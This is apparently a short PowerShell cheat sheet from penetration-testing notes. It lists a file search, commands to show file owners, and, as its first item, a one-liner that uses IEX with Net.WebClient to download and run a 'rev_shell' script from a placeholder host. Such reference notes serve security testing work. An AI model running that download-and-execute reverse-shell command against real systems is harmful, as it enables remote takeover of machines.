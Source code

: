 # Powershell

## Usage

Download and execute file using powershell:

	powershell -c 'IEX(New-Object Net.WebClient).downloadstring("http://<localhostip>/rev_shell")'

Search for files

	Get-ChildItem -force -Path "C:\Path\To\Search" -Recurse -Filter "filename*"

Show owners of files and dirs

	cmd.exe /c "dir /q"
	get-acl -Path <path_to_file_or_dir>